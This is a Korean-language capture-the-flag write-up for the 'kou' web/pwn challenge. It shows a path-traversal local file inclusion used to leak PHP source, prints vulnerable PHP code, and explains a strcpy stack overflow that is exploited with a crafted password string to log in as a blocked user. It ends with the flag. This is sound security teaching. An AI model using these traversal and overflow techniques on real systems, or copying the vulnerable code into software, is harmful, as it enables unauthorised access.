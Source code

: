 # TenDollarCTF 3rd - kou

## Information

Category : Web, Pwn

Solver : 7

Tag : LFI, Overflow

## Description

Author: @shpik

Eagle-Jump is black company?

~~[*] Notice: We trying to fix an issue of this challenge. :'(~~ (Server is running now)

Server Info: <http://web2.tendollar.kr:10101/

## Exploit

문제 페이지에 들어가면 4개의 메뉴가 존재합니다. (੭ ᐕ)੭*⁾⁾

- Home
- Article
- Login
- Join

각각의 메뉴들은 p파라미터로 페이지가 로드됩니다.

`http://web2.tendollar.kr:10101/?p=home`

p 파라미터에다가 php wrapper나 ../와 같은 문자열이 들어갔을때 전부 home으로 이동합니다.

또한 위의 메뉴들을 제외하면 전부 home으로 이동하는 걸로 봐서 whitelist 방식으로 페이지를 로드하는 것 같습니다.

Article메뉴에 들어가면 Secret Data라는 글이 있습니다.

이를 읽으면 You're not admin.이라는 글과 함께 내용이 나오지 않습니다.

글을 요청할때 f 파라미터로써 요청되는 것을 확인할 수 있습니다.

`http://web2.tendollar.kr:10101/?p=view&f=First%20Article`

f 파라미터에 ./, ../를 넣어보면 LFI 취약점이 발생하는 것을 알 수 있으며 이를 통해 index.php와 같은 소스코드를 Leak할 수 있습니다.

`http://web2.tendollar.kr:10101/?p=view&f=../../var/www/html/index.php`

```html
<!-- index.php -->
<!DOCTYPE html>
<html>
<head>
	<title>Yagami Kou's Homepage</title>
	<link rel=stylesheet href="index.css">
</head>
<body>
	<?php
		@include_once('menu.php');
	?>
	<br>
	<?php
		$pageList = array(
			'home',
			'login',
			'loginchk',
			'logout',
			'view',
			'board',
			'join'
		);
		if(in_array($_GET['p'], $pageList)) {
		  @include_once($_GET['p'].'.php');
		} else {
		  @include_once('home.php');
		}		
	?>
</body>
</html>
```

위에 pageList중 중요해 보이는 loginchk를 우선적으로 Leak해보자.

```html
<!-- loginchk.php -->
<?php
	$id = $_POST['id'];
	$pw = $_POST['pw'];
	if($id!='' && $pw!=''){
		if(preg_match('/kou/i',$id)){
			die('<script>alert("Don\'t login at kou.");history.back();</script>');
		}
		if(login($id,$pw)){
			$_SESSION['is_login'] = 1;
			$_SESSION['admin'] = 1;
			echo '<script>alert("Login Success.");location.href="?p=home";</script>';
		}else{
			echo '<script>alert("Login Fail.");history.back();</script>';
		}
	}else{
		echo '<script>alert("Login Fail.");history.back();</script>';
	}
?>
```

소스코드를 보면 kou라는 아이디로 로그인이 막혀있는 것을 알 수 있습니다.

그리고 login할때 **login** 함수를 통해 id, pw를 검증하는 것 같은데, 이 함수는 기본 함수가 아니다.

아마 다른 모듈을 통해 해당 함수를 수행하는 것 같다.

```html
<!-- view.php -->
<?php
	$f = $_GET['f'];
	if(!is_array($f) && !is_null($f) && $f!=''){
//		$f = str_replace('../','', $f);
		if($f[strlen($f)-1]=='/'){
			$f[strlen($f)-1]=='\0';
		}
		if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==1){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}else if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==0){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre>You're not admin.</pre>
	</div>
<?php
		}else{
?>
	<div class="description">
		<p style="font-size: 20px;"><?=$f;?></p>
		<br><br>
		<?php
		if(preg_match('/kou\.so/i',$f)){
			echo 'Okay Here<br><div>'.file_get_contents('/var/www/modules/kou.so').'</div>';
		}
		?>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}

	}else{
		echo '<script>alert("No found.");history.back();</script>';
	}
?>
```

다음으로 view.php를 보면 f로 입력받은 값을 **loadFile**을 통해 내용을 페이지에 뿌려주는 것 같습니다.

**loadFile** 또한 기본 함수가 아니라 다른 모듈에 정의된 함수처럼 보입니다.

f로 kou.so를 요청하면 `loadFile`이나 `login`함수를 가지고 있는 **kou.so**파일을 줍니다.

열어봅시다.

![](./img1.png)

먼저 **loadFile**함수는 fopen을 통해 파일을 여는 함수입니다.

별로 특이한 건 보이지 않으니 **login** 함수를 봅니다.

![](./img2.png)

입력 받은 값을 **loginchk** 함수를 통해 검증합니다.

![](./img3.png)

**loginchk**함수에서는 id롸 pw를 비교하여 값이 같을 때 True를 리턴합니다.

하지만 id는 kou이면서 pw는 1e0c6abede7ff7184c3cefe606f9760a이어야 하는데, loginchk.php에서는 id가 kou가 들어가면 안됩니다.

이 문제의 취약점은 login에 있습니다.

```c
strcpy(_id, id);
v3 = strcpy(_pw, pw);
```

strcpy를 통해 입력받은 값을 각각 \_id, \_pw를 넣어 놓습니다.

```c
char _pw[32]; // [rsp+20h] [rbp-68h]
char _id[33]; // [rsp+40h] [rbp-48h]
```

\_id와 \_pw의 스택을 보면 _pw다음에 _id가 오는것을 볼 수 있습니다.

strcpy를 통해 id를 입력받고 그 후에 pw를 복사합니다만, strcpy는 문자열의 길이를 검사하지 않고 복사합니다.

pw로써 1e0c6abede7ff7184c3cefe606f9760akou를 넣으면 _id에는 kou, _pw는 1e0c6abede7ff7184c3cefe606f9760a가 들어가 정상적으로 로그인 됩니다.

즉, pw를 이용해 overflow를 일으켜 id에 kou를 넣는 것이 가능합니다.

이제 페이지에 로그인할 때 id=a, pw=1e0c6abede7ff7184c3cefe606f9760akou를 넣어주면 로그인에 성공하게 됩니다.

로그인 후에 Article로 이동하여 Secret Data를 읽으면 Flag를 얻을 수 있습니다.

```
Secret Data

退勤する前にFLAGを残していきます。
TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}
```



**FLAG :** TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}

